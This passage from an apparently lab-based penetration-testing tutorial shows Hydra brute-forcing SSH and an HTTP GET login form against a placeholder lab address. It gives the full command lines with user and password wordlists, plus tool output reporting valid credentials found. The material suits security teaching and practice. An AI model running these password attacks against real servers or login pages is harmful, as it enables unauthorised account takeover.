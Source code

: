 ```shell-session
1 of 1 target successfully completed, 1 valid password found
```

  

### SSH  

SSHÂ brute-forcing can be common if your server is accessible to the Internet.Â HydraÂ supports many protocols, includingÂ SSH. We can use the previous syntax to perform our attack! It's important to notice that password attacks rely on having an excellent wordlist to increase your chances of finding a valid username and password.



```shell-session
user@machine$ hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v
 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:48:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ssh://10.10.x.x:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://user@10.10.x.x:22
[INFO] Successful, password authentication is supported by ssh://10.10.x.x:22
[22][ssh] host: 10.10.x.x   login: victim   password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

### HTTPÂ login pages

In this scenario, we will brute-forceÂ HTTPÂ login pages. To do that, first, you need to understand what you are brute-forcing. UsingÂ hydra, it is important to specify the type ofÂ HTTPÂ request, whetherÂ GETÂ orÂ POST. CheckingÂ hydraÂ options:Â hydraÂ http-get-form -U, we can see thatÂ hydraÂ has the following syntax for theÂ http-get-formÂ option:

`<url>:<form parameters>:<condition string>[:<optional>[:<optional>]`

As we mentioned earlier, we need to analyze theÂ HTTPÂ request that we need to send, and that could be done either by using your browser dev tools or using a webÂ proxyÂ such asÂ Burp Suite.

```shell-session
user@machine$ hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (http://www.thc.org/thc-hydra) starting at 2021-10-13 08:06:22 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 500 login tries (l:1/p:500), ~32 tries per task 
[DATA] attacking http-get-form://10.10.x.x:80//login-get/index.php:username=^USER^&password=^PASS^:S=logout.php 
[80][http-get-form] host: 10.10.x.x   login: admin password: xxxxxx 
1 of 1 target successfully completed, 1 valid password found 
Hydra (http://www.thc.org/thc-hydra) 
finished at 2021-10-13 08:06:45
```
